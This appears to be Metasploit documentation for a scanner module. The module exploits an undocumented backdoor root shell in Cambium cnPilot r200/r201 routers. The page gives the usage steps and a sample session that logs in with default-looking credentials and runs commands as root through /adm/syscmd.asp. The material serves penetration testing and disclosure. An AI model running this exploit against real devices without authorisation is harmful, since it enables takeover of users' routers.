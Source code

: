 Cambium cnPilot r200/r201 device software versions 4.2.3-R4 and newer, contain an undocumented, backdoor 'root' shell. This shell is accessible via a specific url, to any authenticated user. The module uses this shell to execute arbitrary system commands as 'root'.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/cnpilot_r_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set CMD [command]```
5. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/cnpilot_r_cmd_exec
msf auxiliary(cnpilot_r_cmd_exec) > set RHOSTS 1.3.3.7
msf auxiliary(cnpilot_r_cmd_exec) > set RPORT 80
msf auxiliary(cnpilot_r_cmd_exec) > set CMD uname -a
msf auxiliary(cnpilot_r_cmd_exec) > run

[+] 1.3.3.7:80 - Cambium cnPilot confirmed...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "user":"user"
[*] 1.3.3.7:80 - Checking backdoor 'root' shell...
[+] 1.3.3.7:80 - You can access the 'root' shell at: http://1.3.3.7:80/adm/syscmd.asp
[+] 1.3.3.7:80 - Executing command - uname -a
[+]
Linux cnPilot-R201 2.6.36 #1 Thu Feb 9 03:02:39 CST 2017 mips unknown


[+] File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_cmdexeclog_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


  ```
